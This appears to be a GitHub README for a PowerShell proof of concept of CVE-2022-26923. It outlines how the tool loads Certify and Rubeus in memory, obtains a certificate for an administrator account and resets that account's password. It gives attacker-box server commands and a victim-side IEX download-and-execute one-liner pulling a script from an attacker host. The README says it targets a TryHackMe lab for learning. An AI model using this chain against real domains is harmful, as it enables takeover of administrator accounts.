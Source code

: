 # CVE-2022-26923-Powershell-POC
A powershell poc to load and automatically run Certify and Rubeus from memory.

# How it works?
1. Loads Certify.exe and Rubeus.exe in memory.
2. Scans the target machine for misconfigured certificate templates. (more on https://www.youtube.com/watch?v=HBRCI5O35R8)
3. Request a certificate for the Administrative user, based on the vulnerable template.
4. Sends the certificate to the certificate handler, it translates it to .pfx format and sends it back to the client.
5. Utilizing Rubeus to load the certificate and generate a ticket for the Administrative user.
6. Changes the password of the Administrative user. (Just for the demo)

The POC is tested on the following TryHackMe Labs: https://tryhackme.com/room/adcertificatetemplates

This CVE is used for privilege escalation, so no initial exploitation is covered on this demo, nor the THM Lab.

Steps:
1. python3 -m http.server 80 [Attacker Box]
2. python3 uploader.py 8000 [Attacker Box]
3. IEX(New-Object Net.WebClient).DownloadString('http://IP/poc.ps1') [Victim Box]

Note: This POC is for educational purpose, you are responsible for your own actions.
